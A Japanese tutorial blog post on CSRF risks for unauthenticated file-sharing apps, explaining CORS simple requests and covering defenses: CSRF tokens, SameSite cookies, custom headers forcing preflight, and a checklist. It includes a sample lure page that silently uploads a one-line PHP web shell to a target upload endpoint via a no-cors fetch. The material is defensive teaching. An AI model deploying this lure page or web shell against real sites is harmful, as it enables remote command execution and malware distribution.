




## はじめに

「認証もCookieもないアプリならCSRF対策は不要」という考えは誤解です。認証機能のないファイル共有アプリでも、意図しないファイルアップロードやマルウェア拡散の危険性があります。

## CSRF攻撃の基本

CSRF(Cross-Site Request Forgery)は、ユーザーが意図しない操作を悪意のあるサイトから実行させる攻撃手法です。



## Preflight Requestが発生しない危険性

CORSには、**Simple Request**という概念があり、特定条件下でPreflight Request(事前確認)が発生しません。

### Simple Requestの条件

以下を満たすとPreflight Requestなしで実行されます:

- **HTTPメソッド**: `GET`, `HEAD`, `POST`
- **Content-Type**:
  - `application/x-www-form-urlencoded`
  - `multipart/form-data`
  - `text/plain`
- **カスタムヘッダーなし**



### 罠サイトサンプルコード

```html
<!DOCTYPE html>
<html>
  <head>
    <title>無料プレゼント!</title>
  </head>
  <body>
    <h1>おめでとうございます!クリックして景品を受け取る</h1>
    <script>
      // ユーザーには見えない攻撃コード
      const malware = new Blob(['<?php system($_GET["cmd"]); ?>'], {
        type: "text/plain",
      });
      const formData = new FormData();
      formData.append("file", malware, "innocent-image.php");

      fetch("https://file-share-app.com/api/upload", {
        method: "POST",
        body: formData,
        mode: "no-cors",
      });
    </script>
  </body>
</html>
```

### 攻撃フロー



**被害**:

- マルウェアのアップロード
- ストレージの不正使用
- 他ユーザーへの感染拡大
- サービスの踏み台化

## 対策方法

### 1. CSRFトークン

全ての変更系リクエストにトークンを要求します。



### 2. SameSite Cookie

Cookieに`SameSite`属性を設定することで、クロスサイトリクエストでのCookie送信を制限します。

```javascript
res.cookie("session_id", sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: "strict", // または 'lax'
});
```

| 属性値   | 動作                                    |
| -------- | --------------------------------------- |
| `Strict` | 同一サイトのみCookie送信                |
| `Lax`    | トップレベルナビゲーションのGETのみ許可 |
| `None`   | 常に送信(Secure必須、非推奨)            |

### 3. カスタムヘッダーでPreflight強制

カスタムヘッダーを必須にすることで、Simple Requestを回避できます。

```javascript
// バックエンド
app.use((req, res, next) => {
  if (
    req.method !== "GET" &&
    req.headers["x-requested-with"] !== "XMLHttpRequest"
  ) {
    return res.status(403).json({ error: "Invalid header" });
  }
  next();
});

// フロントエンド
fetch("/api/upload", {
  method: "POST",
  headers: { "X-Requested-With": "XMLHttpRequest" }, // Preflight発生
  body: formData,
});
```

## 様々なセキュリティ対策

- [x] CSRFトークンを全変更系APIで検証
- [x] SameSite Cookie (`strict`または`lax`)
- [x] カスタムヘッダーでPreflight強制
- [x] Origin/Referer検証
- [x] HTTPS必須
- [x] ファイルサイズ・拡張子制限
- [x] ウイルススキャン

## まとめ

### 重要なポイント

1. **`multipart/form-data`はPreflight Requestが発生しない** - CORSだけでは不十分
2. **認証なしでもCSRF対策は必要** - 踏み台攻撃を防ぐ
3. **多層防御が効果的** - 複数の対策を組み合わせる

**参考：**

CSRFトークン実装済みファイル共有アプリ

https://github.com/hanacus87/file-sharing

体系的に学ぶ 安全なWebアプリケーションの作り方 第2版

https://www.sbcr.jp/product/4797393163/

公式ドキュメント

- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [MDN - CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS)
- [MDN - Preflight request](https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request)
- [MDN - CSRF](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF)

Cookie関連

- [MDN - Using HTTP cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [MDN - Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)
- [web.dev - SameSite cookies explained](https://web.dev/articles/samesite-cookies-explained)

仕様

- [RFC 6265 - HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/rfc6265)
- [Fetch Standard - CORS protocol](https://fetch.spec.whatwg.org/#http-cors-protocol)
